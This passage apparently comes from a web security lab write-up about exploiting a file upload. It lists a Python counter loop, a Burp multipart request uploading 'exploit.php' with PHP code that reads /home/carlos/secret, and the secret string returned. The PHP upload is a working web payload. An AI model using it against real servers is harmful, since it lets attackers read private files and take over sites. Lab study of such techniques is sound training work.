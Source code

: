 3. **Stage_3: _render_ =>**

```python
 condition-loop_reading.py
```

**and use _counter_**

```py
i +=1
print(f"checked => {i} of times", end="\r")
```

4. **Stage_5: Send _request_ from Burp**

```php
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

5. **We have response in _terminal_: =>**

```php
Carlos Secret is: => es

 XL3G4ghgRB4xLNU7wSBGG73ultfLEzvT
```
